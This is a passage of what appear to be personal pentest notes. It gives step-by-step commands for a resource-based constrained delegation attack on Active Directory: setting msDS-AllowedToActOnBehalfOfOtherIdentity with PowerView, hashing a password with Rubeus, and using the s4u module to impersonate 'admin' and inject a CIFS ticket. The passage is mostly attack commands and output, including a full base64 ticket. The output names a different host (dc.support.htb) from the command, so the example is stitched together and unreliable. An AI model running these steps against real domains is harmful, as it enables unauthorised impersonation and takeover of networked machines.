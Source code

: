 ---OUTPUT-$SD---
ControlFlags           : DiscretionaryAclPresent, SelfRelative
Owner                  : S-1-5-32-544
Group                  :
SystemAcl              :
DiscretionaryAcl       : {System.Security.AccessControl.CommonAce}
ResourceManagerControl : 0
BinaryLength           : 80
```
	- Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the comptuer account we're taking over, again using PowerView in this case (settnig the ms allow.. to act on behalf of the bytes we just created):
		```bash
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
	- Execute Rubeus
		```bash
.\Rubeus.exe hash /password:Summer2018!

---OUTPUT---
[*] Action: Calculate Password Hash(es)

[*] Input password             : Summer2018!
[*]       rc4_hmac             : EF266C6B963C0BB683941032008AD47F
```
	- S4U (delegation attack) :And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:
		- this what allow you to impersonate users (constrained authentication)
		```bash
.\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt

---OUTPUT---
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':

      doIGcDCCBmygAwIBBaEDAgEWooIFgjCCBX5hggV6MIIFdqADAgEFoQ0bC1NVUFBPUlQuSFRCoiEwH6AD
      AgECoRgwFhsEY2lmcxsOZGMuc3VwcG9ydC5odGKjggU7MIIFN6ADAgESoQMCAQaiggUpBIIFJat5Jynf
      rc3r//cJn+/0YcjHamYBZn0lIzGJpR6hIq1MD8P5H6n/00Abonv11UXwZN83/ORwMELo+u+UNDcLVVkg
      bWC/EPlUZvyIUHjpy/vwTmq4e1eIt4QBSn2O587WfO5vR14JX2NefNnM/Ki6aHxjyXOCxJ7AJxqdIv/e
      6pDapVuqC9gNBUh4pUnQ5DPD+7WxkXv3NH70zhEO92ZhB6XRvO5tpn4wKVEUaSFCOPxiFrNTiDcmdAwU
      stacxt9KQWnt5KTl7Dr7EHUKfqTM35KMji+N9lItIg9Y2suzRF7Tku6JrYDSDuNV31ntCD1ITqDQmSi5
      ku81Jb24iQY0zyULzIDUCJIkdDCtvHbMVwFXqO5shG40Ca4OtvBnlNgjMr08+WJj4c4QXf2ntitzcKMZ
      VkoeASJZLkS24eQ5vs7N4JiOMBljL8Lt42Qi6oOnInACiIeF/n6J2SRLwJifnyA91FYPqkZL8cirypID
      dMwBwZARfU8x0DfUJOafv6ztVK+bIcIYmIX0WhTSMJdNJkQ4M6kCSegQjPum3u0e4nBmCeZvXI7v5dC5
      Uq2V7m9CkFe3vrTrBogBG9V/Fuu7JRXO3OuKIRlv2ewUquLiS4Z8r3CL7y2ol2XcwqIES1h8ExaRPxz2
      tja04Rn2cYDQA2gnBHfU7Ngb3Gte7K2qne98W9+nfKNdsSHIXzgprV4YY9efw1p6u6ABe/ziKFsWXJGw
      fzTO+VUtj0bOCSpIhWNhVUR1BbGcoB7ZDwORTGCa55trx3VKkwunn1VCUDYD25Z0Z1AJev5o8OTKptbm
      ZX3kUkxUn/upa6dDbnMItg9YTbvRA6fEBBUn8V0Zeb3PMJQuw/1lkNyhtdhfAqzb8zEw3+iXtNxKSJfW
      zNGGhrw5ZpD9jdxVfuZdZN9tdxnr+NWF/A8kylc6CP5cQo6dnY7MmfS0FxS6VoZd5d/QFlCUQCtbLAYs
      XKGB7DjsqLQkohB6Ehhkn5SN1m23MH41IgtziTxKzp3JNTl8mdul7BEwB+YrcgGnn9ZO+q91NA2lGsUw
      9q+MDqDp9s0owCT+f9S8gP242A/2JIeczgXu/3xCEW/O18qFeG2M2WxY0UMFyuMrnakXQ0n3cI2qynEc
      3ItMBcvd8iFWEQpDZVQcC5UALdvH3m83sSGUNMJYi14iVGCaUvDJ8L3mlOrCHQ78rCO1Oe8it9FQklkX
      uBVQD/EammlelAIDf+JjG/Ic9BGR6oIyUrE/35jKDkezRJDMXLRnmGTxoSgCzumwVRkDPqF7PvnPyKQQ
      7dC1eYVoxFQ1tx14R91YTyRRjIMz4HA9uI5lRctOxIVVrGLRpi272kEP14uI6uQ1aRSYNSmeiDsG3f5I
      yX74Gk7D6K6RBcuk7wcKpYth/flfFTFH2z5T0rXUYV/cKy3FIMf5kcSaS68yXt3b8sdTnSvt3ERFG7wm
      mfKtP8DoFNfA8kFbdevKl7J+LjSyeQAJYyu0ltLquuWkDgUOmzlrPKlobA9wCtIlS4kPkkEQelbcAn/3
      aDrNYFOQGg/1jzbrEmU827ANiLnsl5ZvLBFeDs6zCr5H7OwOwtomMB0QgPsJlpvIMKjeglLUi4DwKtFZ
      nTeLuer/XhhLPXbb3xnYtx3DnaMTdjKnYli7kxFSxURLd5p43VT0LTMMi7EMpxNmzWVgQmwHPbjdc49p
      oLeTvKrjl8CMCxOu+BU1qSxTQsIYhJ/ddaFIPHGKeovMDmvsvLrjkDuQnxz7yjkT7Gd1XaOB2TCB1qAD
      AgEAooHOBIHLfYHIMIHFoIHCMIG/MIG8oBswGaADAgERoRIEENLlGWiV7w9WT+VElXPASVWhDRsLU1VQ
      UE9SVC5IVEKiGjAYoAMCAQqhETAPGw1hZG1pbmlzdHJhdG9yowcDBQBApQAApREYDzIwMjUwNDA2MDAy
      NTM3WqYRGA8yMDI1MDQwNjEwMjUzN1qnERgPMjAyNTA0MTMwMDI1MzdaqA0bC1NVUFBPUlQuSFRCqSEw
      H6ADAgECoRgwFhsEY2lmcxsOZGMuc3VwcG9ydC5odGI=
```
